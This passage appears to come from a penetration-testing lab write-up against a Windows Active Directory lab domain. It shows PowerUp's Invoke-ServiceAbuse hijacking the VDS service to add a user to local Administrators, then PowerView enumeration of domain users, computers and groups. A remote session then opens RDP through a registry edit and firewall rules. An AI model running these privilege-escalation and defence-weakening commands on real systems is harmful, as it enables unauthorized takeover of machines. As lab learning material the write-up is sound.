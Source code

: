 i get back an interesting piece of information.

```powershell
ServiceName : vds
Path : C:\Windows\System32\vds.exe
StartName : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'vds'
CanRestart : True
```

let's exploit this vulnerable service `VDS` to add our user `bilal` to the local Administrators group.

```powershell
Invoke-ServiceAbuse -ServiceName vds -UserName Nebula\bilal
```

this exploits a vulnerability in `VDS` (Virtual Disk Service). it modifies the service to run a command [`net localgroup Administrators Nebula\bilal /add`] that will add my user to the Administrators group. this works because `VDS` runs with `SYSTEM` privileges. 

logging back in so the changes take effect, i can verify:

```powershell
net localgroup Administrators

--------------------------------------
Administrator
Nebula\Domain Admins
Nebula\bilal
```

## enumeration

get the list of domain users.

```powershell
Get-NetUser | select samaccountname
```

get the list of domain computers.

```powershell
Get-netcomputer
```

get the list of domain groups.

```powershell
Get-netgroup

Administrators
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
```

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp